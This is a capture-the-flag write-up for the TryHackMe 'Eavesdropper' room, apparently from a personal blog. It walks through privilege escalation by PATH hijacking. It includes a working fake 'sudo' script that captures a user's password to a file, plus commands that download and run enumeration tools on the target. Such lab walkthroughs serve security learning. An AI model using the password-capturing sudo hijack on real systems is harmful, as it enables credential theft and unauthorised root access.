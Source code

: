 ```yaml
---
layout: post
title: "Eavesdropper"
date: 2023-03-04
ctf: true
excerpt: "Walkthrough for Eavesdropper on Try Hack Me"
tags: [Try Hack Me, Eavesdropper]
comments: false
---
```


# Eavesdropper

[Wreath](https://tryhackme.com/room/eavesdropper) is a Medium difficulty room available on [TryHackMe](https://tryhackme.com). The main challenge focuses on your enumeration skills to find something you can listen to to uncover the root user's password.

## Hints

<details><summary><strong>Room Hints</strong></summary>
<ul>
    <li>Snoop the processes and see if you can find anything interesting.
    <li>Can you hijack something to gain access?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1 - Download Keys

For this task, make sure you Download the provided task files and save the SSH private key to a directory on your attacker box. Complete this task once this has been done.

![Eavesdropper download SSH key](/assets/img/Eavesdropper-1.png)


### Task 2 - Find the Flag

This task wants you to connect with the provided SSH keys and put your enumeration skills to the test to find a way to escalate privileges.

![Eavesdropper Task 2](/assets/img/Eavesdropper-2.png)

First, we need to change the permissions on the provided SSH key with:

`chmod 600 idrsa.id-rsa`

![Eavesdropper chmod ssh key](/assets/img/Eavesdropper-3.png)

Next, let's connect to the target machine as frank with:

`ssh frank@<target ip> -i idrsa.id-rsa`

![Eavesdropper ssh Frank](/assets/img/Eavesdropper-4.png)

Next, let's copy linpeas over to the target machine. On your attacker machine, start an http server with python with:

`python3 -m http.server`

![Eavesdropper python http server](/assets/img/Eavesdropper-5.png)

Next, on your target machine, navigate to the /tmp directory and run:

`wget http://<attack machine ip>:8000/linpeas.sh`

![Eavesdropper download linpeas](/assets/img/Eavesdropper-6.png)

Next, make it executable with:

`chmod +x linpeas.sh`

and then run it with:

`./linpeas.sh`

This did not return anything too useful. Let's follow this same process to move pspy64 over to the victim machine:

![Eavesdropper download pspy](/assets/img/Eavesdropper-7.png)

This returns some interesting inforamtion. It appears that there's an automated process that is logging in as frank via ssh, and then using cat to list the data in the /etc/shadow file:

![Eavesdropper pspy processes](/assets/img/Eavesdropper-8.png)

What is interesting about this is that it is running sudo without a full path, and it is currently located in /usr/bin, which is not the first entry in the $PATH variable.

![Eavesdropper cat PATH](/assets/img/Eavesdropper-9.png)

Let's modify this to add /tmp to the beginning by modifying the .bashrc file in frank's home directory.

![Eavesdropper modify .bashrc](/assets/img/Eavesdropper-10.png)

Next, we need to make an executable "sudo" file in the /tmp directory that can be used to capture credentials.

The code I used to capture the password is as follows:

```
#!/bin/bash
read -sp "Give me your password please: " password
echo $password > /tmp/password.txt
echo "\n"
```

![Eavesdropper malicious sudo](/assets/img/Eavesdropper-11.png)

Next, in a second terminal window, I created another SSH session and logged in as frank:

![Eavesdropper frank 2nd SSH session](/assets/img/Eavesdropper-12.png)

As you can see in the screenshot above, /tmp is the first listing in the $PATH variable. Let's see if there's any information in the /tmp/password.txt file as we would expect with:

`cat /tmp/password.txt`

![Eavesdropper frank password](/assets/img/Eavesdropper-13.png)

We now have frank's password. Copy the value in the password.txt file and go back to your first ssh session and run:

`sudo su`

This will not work in the 2nd session since we hijacked the path, as it will try to run our malicious "sudo" file again. You could also specify the /usr/bin/sudo from the 2nd session to run the "real" sudo executable.

![Eavesdropper root access](/assets/img/Eavesdropper-14.png)

Next, navigate to the root user's home directory and print out the contents of the flag.txt file with:

`cat flag.txt`

![Eavesdropper root flag](/assets/img/Eavesdropper-15.png)

</details>